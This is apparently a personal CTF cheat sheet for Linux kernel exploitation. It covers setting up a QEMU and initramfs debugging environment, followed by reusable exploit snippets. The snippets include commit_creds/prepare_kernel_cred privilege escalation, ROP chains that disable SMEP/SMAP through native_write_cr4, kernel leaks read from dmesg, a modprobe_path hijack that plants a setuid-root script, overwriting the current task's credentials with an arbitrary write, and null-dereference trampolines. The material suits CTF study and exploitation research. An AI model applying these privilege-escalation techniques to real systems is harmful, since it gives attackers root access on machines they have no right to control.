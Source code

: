 ## general setup
# decompress filesystem
cp ../core.cpio core.cpio.gz #  copy the gzip file into the folder and change the suffix
gunzip ./core.cpio.gz 
cpio -idm < ./core.cpio
#if file system is already .gz with file type gzip
gzip -cd ../initramfs.cpio.gz | cpio -imd --quiet
#for a ext2/3/4 filesystem
mount it on the host while qemu is off, make changes, unmount then boot qemu.
mount -o loop,offset=offset /path/to/disk_image /mnt/mount_point
https://access.redhat.com/solutions/24029
#gencpio.sh
#!/bin/sh
gcc exploit.c -o exploit -ggdb -static 
find . -print0 | cpio --null -ov --format=newc | gzip -9 > rootfs.cpio
cd ../
rm rootfs.cpio
cp fs/rootfs.cpio .
./boot.sh
#attach.sh
gdb vmlinux -x cmd
#compile.sh
gcc -o exploit -ggdb -static exploit.c
#cmd
target remote:1234
add-symbol-file ch39.ko 0xf801c000
add-symbol-file fs/exploit 0x4004d0
#include
#define _GNU_SOURCE
#include<sched.h>
#include<stdio.h>
#include<stdlib.h>
#include<unistd.h>
#include<sys/mman.h>
#include<string.h>
#include<sys/stat.h>
#include<sys/types.h>
#include<fcntl.h>
#include<errno.h>
#include<sys/wait.h>
#include<pthread.h>
#include<sys/syscall.h>
#include<sys/ioctl.h>
#include<linux/userfaultfd.h>
#include <poll.h>
#include <signal.h>

# setsid to 0 to get root->
to access /sys/module/name_of_module/sections/.text for address of .text section of module
/proc/kallsyms for all symbols.
change uid to 0 in /etc/passwd
#use cpu kvm64 to allow smep,smap
# Use extract-vmlinux script in linux-headers to extract vmlinux from bzImage
/usr/src/linux-headers-$(uname -r)/scripts/extract-vmlinux bzImage > vmlinux
# cat /sys/module/name_of_module/sections/.text->address of .text sectiion of loaded module.
# load debug info:add-symbol-file /path/to/module 0xd081d000 \  #  .text
 		-s .data 0xd08232c0 \
		-s .bss  0xd0823e20
# open the dev file created in /dev or /proc or /sys to interact with the kernel module.
# if you obtain major number with register_chrdev(), you need to manually make the device file.
# proc_create automatically creates the device file in /proc
char *args[]={"/bin/sh",NULL}; execve("/bin/sh",args,NULL) is needed to spqwn shell.
To define kernel functions, first create a typedef with: ret_type(typedefname)(args) and then define with function with typedefname addr.Example:
typedef unsigned long __attribute__((regparm(3)))(*commit_creds_func)(unsigned long cred);
typedef unsigned long __attribute__((regparm(3)))(*prepare_kernel_cred_func)(unsigned long cred);
commit_creds_func commit_creds = (commit_creds_func) 0xffffffff8107ab70;
prepare_kernel_cred_func prepare_kernel_cred = (prepare_kernel_cred_func) 0xffffffff8107af00;
void privesc(){
	commit_creds(prepare_kernel_cred(0));
}
##code snippets
#save_state
unsigned long user_cs, user_ss, user_rflags;
unsigned long user_cs,user_ss,user_rflags,user_rsp;
static void save_state()
{
    asm(
        "movq %%cs, %0\n"
        "movq %%ss, %1\n"
	"movq %%rsp, %3\n"
        "pushfq\n"
        "popq %2\n"
        : "=r"(user_cs), "=r"(user_ss), "=r"(user_rflags), "=r"(user_rsp)
        :
        : "memory");
}
#ropchains
#x64 and x86(change r to e)
unsinged long ropchain[]={poprdi,0x6f0,native_write_cr4,privesc,swapgs,iret,getshell,user_cs,user_rflags,user_rsp,user_ss};
stack layout while returning: r_rip;user_cs;user_rflags;user_rsp;user_ss;
#x86
        unsigned int ropchain[]={filler,filler,filler,filler,filler,filler,filler,filler,filler,filler,
                                POPEAX,DESIRED_CR4_VALUE,NATIVE_WRITE_CR4,
                                privesc,
                                POPECX,fakestack+0x2000,
                                POPEDX,get_shell,
                                SYSEXIT};

#leaks in kernel:
        system("dmesg > leak.txt");
        int lfd=Open("leak.txt",O_RDWR);
        lseek(lfd,-LEN,SEEK_END);
        char leaktxt[LEN];
        read(lfd,leaktxt,LEN);
        close(lfd);
        char *leaksbuf=strstr(leaktxt,"Appropriate String");
        if(leaksbuf==NULL){
                perror("flag ptr not found");
                exit(EXIT_FAILURE);
        }
        flagptr=strtoul(leaksbuf+n,NULL,16);
#create new thread:
        pthread_t t1;
        pthread_create(&t1,NULL,startfunc,&arg);
#wait for thread to terminate:
	pthread_join(t1,NULL);
#create new child process that behaves like a thread:
	pid_t pid=clone(startfunc,fakestack+0xf000,CLONE_VM|CLONE_FILES|SIGCHLD,&arg);
#wait for child process to terminate:
	wait(NULL);
#check rootme reentrant-code for race conditions example

void set_affinity(int which_cpu)
{
    cpu_set_t cpu_set;
    CPU_ZERO(&cpu_set);
    CPU_SET(which_cpu, &cpu_set);
    if (sched_setaffinity(0, sizeof(cpu_set), &cpu_set) != 0)
    {
        perror("sched_setaffinity()");
        exit(EXIT_FAILURE);
    }
}
call it right after save_state();
# trigger mod_probe with: (before this overwrite modprobe_path with "/home/user/p")
#check SLUB off-by-1 for shell with modprobe_path hijack
void modprobe_trigger(){
        system("echo -ne '#!/bin/sh\n/bin/chown root:root /mnt/share/exploit\n/bin/chmod u+s /mnt/share/exploit\nchmod g+s /mnt/share/exploit'>/mnt/share/p")
        system("chmod +x /mnt/share/p");
        system("echo -ne '\\xff\\xff\\xff' > /mnt/share/trig");
        system("chmod +x /mnt/share/trig");
        system("/mnt/share/trig 2>/dev/null");
        system("/mnt/share/exploit");
        getchar();
}
at start of main:
        setuid(0);
        if(!getuid()){
                puts("[+] Here's your r00t shell!");
                system("/bin/sh");
                return 0;
        }


#overwrite current process creds with arw:
#1https://devcraft.io/2019/01/22/1118daysober-insomnihack-teaser-2019.html
#2root-me: SLUB off-by-one writeup
        uint64_t init_task = kernel_base_address + OFFSET_INIT_TASK;
        uint64_t task = 0;
        uint64_t ptask = init_task;
        while (task != init_task) {
                task = read64(ptask + OFFSET_TASKS) - OFFSET_TASKS;
                ptask = task;
                int pid = read64(task + OFFSET_PID);
                if (pid != getpid())
                        continue;
 
                puts("found current task!");
                long cred = read64(task + OFFSET_CRED);
 
                for (int i = 0; i < 4; i++)
                    write64(cred + i * 8, 0);
 
                break;
        }
#nullptr deference
char *addr=(char *)mmap(NULL,0x3000,PROT_EXEC|PROT_READ|PROT_WRITE,MAP_PRIVATE|MAP_ANONYMOUS|MAP_FIXED,0,0); 
#for x64:
memset(addr,0,0x3000);
addr[0]='\xff';
addr[1]='\x25';
*(unsigned long *)&addr[2]=0;
*(unsigned long *)&addr[6]=(unsigned long)&privesc;
#for x86:
char shellcode[]="\xFF\x25\x06\x00\x00\x00";
memcpy(mem,shellcode,6);
*(int *)(mem+6)=&privesc;
#check cr4 value by getting a kernel panic with eip=0x41414141 and then get the desired value accordingly
#kmalloc-32 spray:open("/proc/self/stat",O_RDONLY)

#instead of returing to user-space in ropchains, use raj's technique, check exploit.c for kstack from secconctf2020; (Basically chmod the binary after root privs ad then call msleep, in the mean time, run another thread that executes the binary.)
#kmalloc-1024 tty_struct open("/dev/ptmx")
#kmalloc-128 cred_struct fork()
